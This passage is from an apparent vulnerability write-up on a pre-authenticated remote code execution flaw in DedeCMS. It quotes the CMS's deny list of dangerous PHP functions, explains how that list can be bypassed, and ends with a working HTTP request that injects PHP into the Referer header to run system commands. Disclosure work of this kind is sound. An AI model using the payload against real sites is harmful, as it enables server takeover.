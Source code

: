 At *\[8\]* the code calls `GetResult` which returns the value in `sourceString` to set the `$result` variable which now contains attacker-controlled input. At *\[9\]* the `CheckDisabledFunctions` function is called on the `$result` variable. Let's see what `CheckDisabledFunctions` is all about:

```php
    public function CheckDisabledFunctions($str, &$errmsg = '')
    {
        global $cfg_disable_funs;
        $cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite';
        // 模板引擎增加disable_functions
        if (!defined('DEDEDISFUN')) {
            $tokens = token_get_all_nl($str);
            $disabled_functions = explode(',', $cfg_disable_funs);
            foreach ($tokens as $token) {
                if (is_array($token)) {
                    if ($token[0] = '306' && in_array($token[1], $disabled_functions)) {
                        $errmsg = 'DedeCMS Error:function disabled "' . $token[1] . '" <a href="http://help.dedecms.com/install-use/apply/2013/0711/2324.html" target="_blank">more...</a>';
                        return false;
                    }
                }
            }
        }
        return true;
    }
```

Well. It's possible for an attacker to bypass this deny list in several ways with some creativity, write malicious php into the temporary file and finally reach the `include` in `Display` at *\[9\]* to execute arbitrary code.

### Proof of Concept

It's possible to borrow their own code and call dangerous functions, but there are several generic ways to bypass the deny list anyway. The referer header isn't checked for double quotes so the following payload will work:

```
GET /plus/flink.php?dopost=save&c=id HTTP/1.1
Host: target
Referer: <?php "system"($c);die;/*
```

![](/assets/images/pre-authenticated-rce-in-dedecms/rce.png "Dedecms RCE")
